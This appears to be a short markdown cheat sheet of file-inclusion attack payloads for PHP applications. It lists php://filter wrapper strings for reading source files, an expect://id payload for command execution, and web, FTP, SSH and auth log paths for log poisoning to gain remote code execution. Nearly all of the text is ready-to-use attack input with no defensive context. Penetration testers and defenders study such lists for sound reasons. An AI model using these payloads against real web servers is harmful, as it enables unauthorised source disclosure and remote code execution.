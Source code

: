 # PHP
- php filters
```
php://filter/read=string.rot13/resource=index.php
php://filter/convert.iconv.utf-8.utf-16/resource=index.php
php://filter/convert.base64-encode/resource=index.php
```

- php expect
```
expect://id
```

# Escalate to RCE
- logs poisoning
```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/auth.log
```
